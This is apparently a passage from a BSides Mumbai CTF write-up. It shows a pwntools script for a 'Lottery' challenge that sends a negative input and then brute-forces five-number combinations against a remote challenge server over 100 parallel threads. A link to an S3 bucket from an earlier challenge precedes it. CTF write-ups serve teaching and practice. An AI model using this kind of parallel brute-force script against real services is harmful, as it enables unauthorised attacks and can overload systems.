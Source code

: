 [`http://social.naughtyide.s3.amazonaws.com`](http://social.naughtyide.s3.amazonaws.com/)

![Untitled](/assets/img/BSides%20Mumbai%20CTF%205b2b9b2ec9614c368ef8a75ee3973733/Untitled%2027.png)

## Challenge 14: Lottery

```python
import concurrent.futures
from pwn import *

context.log_level = 'info'

def find_number_combination(io):
    io.sendlineafter(b"lottery?", b"-1")

    for a in range(1, 10):
        for b in range(1, 10):
            for c in range(1, 10):
                for d in range(1, 10):
                    for e in range(1, 10):
                        res = io.recvuntil("spaces:")
                        if not b"Try again" in res and not b"number 1" in res:
                            print(res)
                            return

                        io.sendline(f"{a} {b} {c} {d} {e}")

def runit():
    io = remote("143.110.176.49", 1024)
    find_number_combination(io)

# Number of workers you want to use
num_workers = 100

# Using ThreadPoolExecutor to parallelize the function
with concurrent.futures.ThreadPoolExecutor(max_workers=num_workers) as executor:
    # List of your functions to be executed in parallel
    futures = [executor.submit(runit) for _ in range(num_workers)]

    # Getting results if your functions return something
    results = [future.result() for future in futures]
    
```
